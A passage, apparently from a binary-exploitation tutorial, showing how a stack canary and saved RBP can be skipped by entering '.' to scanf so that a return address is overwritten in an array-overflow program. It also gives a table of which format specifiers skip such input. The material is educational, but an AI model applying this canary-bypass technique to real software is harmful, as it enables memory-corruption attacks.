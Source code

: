 <pre class="language-bash"><code class="lang-bash">How many numbers do you want to add? 22
Number[0]: 1
Number[1]: 1
...
<strong>Number[20]: .  # Stack Canary (skipped)
</strong>Number[21]: .  # RBP (skipped)
Number[22]: 12345678  # Return address
</code></pre>

When researching the reason this trick works, they found the following results:

<table><thead><tr><th width="391">Format</th><th>Skipped</th></tr></thead><tbody><tr><td><code>%d</code> (integer)</td><td><code>.</code> and <code>.5</code></td></tr><tr><td><code>%f</code> (float), <code>%lf</code> (double), <code>%Lf</code> (long double)</td><td>only <code>.</code></td></tr><tr><td><code>%x</code> (hex)</td><td>only <code>.</code></td></tr><tr><td><code>%s</code> (string)</td><td></td></tr></tbody></table>
